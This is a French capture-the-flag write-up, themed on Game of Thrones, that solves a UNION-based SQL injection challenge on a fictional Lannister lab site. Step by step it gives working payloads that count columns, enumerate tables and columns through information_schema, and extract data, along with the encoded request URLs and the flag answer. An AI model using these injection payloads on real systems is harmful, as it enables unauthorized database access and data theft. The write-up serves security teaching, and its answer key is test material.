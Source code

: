 ```yaml
---
title: 3 - Injection SQL UNION
next: "/write-ups/wu4"
prev: "/write-ups/wu2"
---
```


# 🗂️ Injection SQL (CWE-89) UNION

## 🎯 Objectif
Grâce au passe récupéré, John infiltre Castral-Roc et découvre un livre verrouillé répertoriant les armes Lannister. Grâce à une injection SQL Union, il y accède et trouve la localisation du feu grégeois, une menace pour la flotte des Stark.

**Flag attendu :** ville:emplacement

---

## ⚙️ Environnement
- **Prérequis :** Etre connecté avec le cookie de session du garde

---

## 🚀 Étape 1 : Déterminer le nombre de colonne de la bdd : 

```sql
' ORDER BY 1 --
```

Ne pas oublier d'encoder l'url : 
**?member=%27+ORDER+BY+1+--+**
Donc :
http://castral-roc.lannisport.south/famillelannister.php?member=%27+ORDER+BY+1+--+

On incrémente le nombre jusqu'a obtenir une erreur, dans notre cas lorsque l'on rentre 3 nous otenons une erreur, ansi le nombre de colonne est le dernier chiffre valide donc 2.

---

## Étape 2 : Identifier les colonnes visibles

```sql
' UNION SELECT 1,2 --
```

Une fois l'url encodée : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+1,2+--+

Ici si nous la bdd nous retourne 1:2 cela indique que nous pouvons exploiter les colonnes 

---

## Étape 3 : Déterminer le nom des tables de la bdd 

```sql
' UNION SELECT table_name,table_schema FROM information_schema.tables --
```

Encodé : 
http://castral-roc.lannisport.south/famillelannister.php?member=%27+UNION+SELECT+table_name,table_schema+FROM+information_schema.tables+--+

On trouve ici : 

**battle_ressources : lannisport_db**

**lannister_family : lannisport_db**

---

## Étape 4 : Déterminer le nom des colonnes de la table battle_ressources 

```sql
' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='battle_ressources' --
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+column_name,data_type+FROM+information_schema.columns+WHERE+table_name='battle_ressources'+--+

On trouve : 

**emplacement : varchar**

**id : int**

**type : varchar**

**ville : varchar**

---

## Étape 5 : Extraire l'emplacement du Feu Grégoire
```sql
' UNION SELECT type, CONCAT(ville,' ' ,emplacement) FROM+battle_ressources -- 
```

http://castral-roc.lannisport.south/famillelannister.php?member='+UNION+SELECT+type,+CONCAT(ville,'+',emplacement)+FROM+battle_ressources+--+

On trouve alors : 

Feu Grégeois : Castral Roc Cave secrète sous la forteresse